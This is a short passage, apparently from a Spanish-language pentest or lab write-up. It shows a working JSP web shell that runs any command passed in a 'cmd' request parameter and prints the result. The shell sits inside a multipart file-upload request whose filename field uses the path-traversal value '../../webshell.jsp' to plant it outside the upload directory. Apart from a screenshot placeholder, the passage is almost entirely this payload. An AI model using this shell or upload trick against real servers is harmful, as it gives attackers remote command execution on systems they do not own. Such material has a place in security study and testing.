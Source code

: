 ```
<pre>
<%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while (disr != null) {
            out.println(disr);
            disr = dis.readLine();
        }
    }
%>
</pre>
</BODY></HTML>
-----------------------------265904619834939401522208686854
Content-Disposition: form-data; name="top.UploadFileName"



../../webshell.jsp
-----------------------------265904619834939401522208686854--
```

VISTA GRAFICA:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-03 113504.png" alt=""><figcaption></figcaption></figure>
